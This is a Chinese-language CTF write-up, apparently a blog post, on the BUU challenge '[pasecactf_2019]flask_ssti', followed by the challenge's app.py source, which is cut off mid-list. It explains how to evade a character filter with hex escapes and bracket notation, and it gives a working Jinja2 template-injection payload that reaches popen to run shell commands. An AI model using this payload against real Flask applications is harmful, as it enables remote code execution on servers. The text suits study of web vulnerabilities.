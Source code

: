 ```yaml
---
title: buu 部分flask题目
date: 2024-10-04 13:59:28
permalink: /pages/969484/
sidebar: false
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## [pasecactf_2019]flask_ssti

一道ssti题目，题目正常执行ssti，尝试猜测过滤了哪些字符

![1](https://the0n3.top/medias/buuflask/1.png)

通过测试，可以发现过滤了`'`,`.`,`_`三个字符，还是很好绕过的

过滤了单引号可以用双引号替换，过滤点可以用中括号替换，过滤下划线可以用16进制绕过

class，base往上找到基类`Object`，再从基类`Object`的子类subclasses里找到`os._wrap`子类的索引下标127

往下找init,globals实例化对象调用popen函数执行命令，在根目录下没有flag

::: v-pre
```python
nickname={{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("ls /")["read"]()}}
```
:::

查看app.py源码

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'  # Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]
app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""
os.remove("/app/flag")

nicknames = [
    '˜”*°★☆★_%s_★☆★°°*', 
    '%s ~♡ⓛⓞⓥⓔ♡~', 
    '%s Вêчңø в øĤлâйĤé', 
```